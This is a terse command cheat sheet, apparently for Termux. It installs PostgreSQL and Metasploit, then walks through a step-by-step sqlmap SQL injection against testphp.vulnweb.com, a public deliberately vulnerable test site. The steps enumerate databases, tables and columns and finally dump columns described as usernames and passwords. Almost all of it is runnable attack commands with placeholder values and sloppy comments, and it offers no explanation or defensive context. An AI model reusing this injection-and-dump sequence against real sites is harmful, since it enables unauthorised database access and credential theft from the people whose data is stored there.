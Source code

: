 


apt install postgresql

//install postgresql



mkdir -p $PREFIX/var/lib/postgresql
//install postgresql


initdb $PREFIX/var/lib/postgresql


pg_ctl -D $PREFIX/var/lib/postgresql start


createuser --superuser --pwprompt root


createdb mydb


psql mydb





exit

pkg install unstable-repo


pkg install metasploit




apt install sqlmap

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -dbs





// database open 



sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D (database)



//database name 



sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D &&&& -tables


//tables open


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T (tables name) -columns



//columns open





sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T  **** -C &&&&


//columns name


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T **** -C  (columns name) -dump


// (passwor) (user name) dump 
